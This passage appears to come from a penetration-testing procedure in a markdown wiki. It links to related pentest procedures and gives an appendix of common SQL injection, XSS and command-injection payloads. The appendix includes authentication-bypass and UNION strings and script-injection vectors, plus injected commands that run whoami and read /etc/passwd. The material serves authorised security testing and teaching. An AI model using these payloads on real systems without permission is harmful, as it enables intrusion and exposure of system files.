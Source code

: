 **Pentesting & Security:**
- [[sop-linux-pentest|Linux Pentesting]] - Server-side exploitation and privilege escalation
- [[sop-ad-pentest|Active Directory Pentesting]] - Web apps with AD/SSO integration
- [[sop-mobile-security|Mobile Security]] - Mobile API security testing
- [[sop-vulnerability-research|Vulnerability Research]] - Finding web application vulnerabilities
- [[sop-bug-bounty|Bug Bounty Hunting]] - Responsible web vulnerability disclosure
- [[sop-firmware-reverse-engineering|Firmware Reverse Engineering]] - IoT web interfaces and embedded device testing
- [[sop-detection-evasion-testing|Detection Evasion Testing]] - Bypassing WAF and security controls
- [[sop-forensics-investigation|Forensics Investigation]] - Web compromise investigation

---

## Appendix: Common Payloads

### SQL Injection Payloads

```sql
' OR '1'='1
' OR '1'='1'--
' OR '1'='1'/*
admin'--
admin'#
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
1' AND SLEEP(5)--
1' AND BENCHMARK(5000000,MD5('A'))--
```

### XSS Payloads

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>
<iframe src="javascript:alert(1)">
'><script>alert(1)</script>
"><img src=x onerror=alert(1)>
javascript:alert(1)
```

### Command Injection Payloads

```bash
; whoami
| whoami
|| whoami
& whoami
&& whoami
`whoami`
$(whoami)
; cat /etc/passwd
| cat /etc/passwd
```
